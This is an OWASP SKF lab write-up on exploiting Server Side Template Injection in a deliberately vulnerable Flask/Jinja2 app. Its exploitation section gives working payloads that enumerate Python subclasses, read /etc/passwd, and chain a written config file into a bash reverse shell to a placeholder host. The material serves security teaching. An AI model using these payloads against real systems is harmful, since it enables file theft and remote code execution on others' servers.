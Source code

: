 # Server Side Template Injection - SSTI

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:ssti
```

```
$ sudo docker run -ti -p 127.0.19.1:9000:9000 blabla1337/owasp-skf-lab:ssti
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

#### Step 1

![](../../.gitbook/assets/python/SSTI/1.png)

As with all reconnaissance we first have to determine the type of application that is running and the programming language it was written in. This could easily be achieved by setting up an intercepting proxy and study the requests and responses made by the application to the web sever.

Also, trying to trigger error messages on the application can also give away a lot of information about the application under test.

In the screenshot below in the response of the we find the python version that is running, accompanied with the server "Werkzeug". This is a clear indicator the web application might be running python flask, and python flask typically runs with the templating engine, jinja2.

![](../../.gitbook/assets/python/SSTI/2.png)

#### Step2

Now that we have determined the type of application that is running let's try to see if any user supplied input is accepted by the application. The input from the URL is being processed directly in the application and outputted in the HTML. So now we have control of whatever is being reflected on the page. How do we now determine if the application might be susceptible to Server Side Template Injection?

First we need to do some investigation on how the syntax works, so we dive into the docs!

{% hint style="info" %}
[http://jinja.pocoo.org/docs/2.10/templates/](http://jinja.pocoo.org/docs/2.10/templates/)
{% endhint %}

{% ... %} for Statements {{ ... }} for Expressions to print to the template output {# ... #} for Comments not included in the template output # ... ## for Line Statements \`\`\`

Now, we want to use expressions to print to the template output to see if our payloads are interpreted and executed on the server-side by the templating engine. The most ideal way to do so is to inject mathematical statements.

As found in the docs:

```
{{ 1 + 1 }} is 2.
```

Let's see what happens of we inject the expression with the operator described above!

![](../../.gitbook/assets/python/SSTI/3.png)

## Exploitation

A nice website with write-ups about different type of payloads on template engines is found here:\
[\
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)

In python `__mro__` or `mro()` allows us to go back up the tree of inherited objects in the current Python environment, and `__subclasses__` lets us come back down. Read the [docs](https://docs.python.org/3/library/stdtypes.html?highlight=subclasses#class.__mro__) for more. Basically, you can crawl up the inheritance tree of the known objects using `mro`, thus accessing _every class loaded_ in the current python environment

Now, lets find some usefull injections for Jinja2.\
In order to build our exploit this here already looks pretty promising:

```python
{{ ''.__class__.__mro__[2].__subclasses__() }}
```

After injecting the payload we now have a list of all the different classes loaded in our target application. Let's see if we can use it to read some information from the file system

![](../../.gitbook/assets/python/SSTI/4.png)

On position 40 whilst iterating over the different loaded classes we find the "read" function. Let's use this function to read the "/etc/passwd" file from the filesystem.

```python
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
```

![](../../.gitbook/assets/python/SSTI/5.png)

As mentioned before this attack can ultimately be used also to gain remote code execution on the target application. In order to do so we first would need to set up a listener and than inject the following payloads

```
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/evilconfig.cfg', 'w').write('from subprocess import check_output\n\nRUNCMD = check_output\n') }} # evil config
{{ config.from_pyfile('/tmp/evilconfig.cfg') }}  # load the evil config
{{ config['RUNCMD']('bash -i >& /dev/tcp/xx.xx.xx.xx/8000 0>&1',shell=True) }} # connect to evil host
```

## Additional sources

[https://portswigger.net/blog/server-side-template-injection](https://portswigger.net/blog/server-side-template-injection)

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20injections#dump-all-used-classes](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20injections#dump-all-used-classes)

[https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti](https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti)
